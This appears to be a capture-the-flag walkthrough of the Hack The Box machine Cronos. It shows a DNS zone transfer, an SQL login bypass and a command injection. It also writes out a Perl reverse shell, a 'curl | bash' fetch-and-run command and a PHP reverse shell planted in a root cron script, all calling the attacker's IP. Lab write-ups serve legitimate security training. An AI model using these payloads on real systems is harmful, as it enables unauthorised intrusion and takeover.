# Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>

## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:


We have services running on port 22, 53 and 80. We'll check them in detail.

First, lets check the website running on port 80. 


It just gives us a default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then i turned my attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided some information.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Then i looked at `searchsploit` for known any exploits for it, spent some time with the exploits that came up, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used below command
    `dig @10.10.10.13 -x 10.10.10.13`<br/>

Below we can see, that the server responded:



Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>

Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(


Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:


Consequently, this revealed the admin portal -> <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below



<br/>
I tried basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`     worked for me.
    
We can see the request in Burp for the same


<br/>

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.


Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory. Great! We have command execution.

Then i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>



Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br/>

Below we can see, we get a session on our local machine <span id=green>:)</span>


Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` <span id=green>flag</span>.

Next task: Priveldge escalation.
<br/>
<br/>

## Priveledge Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`
  Download and run on attacker : `$ curl http://10.10.14.7/linEnum.sh | bash`
  


Spent some times time looking at the output, its a lot. Then came across something <span id=green>interesting:</span>


Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```
<br/>
Below is detail of steps performed to upload PHP webshell


Meanwhile, we set up a listener at port `4445`, and waited for shell to execute via cronjob.
After a minute, go the session :)



Now, <span id=green>Cronos is Owned.</span>


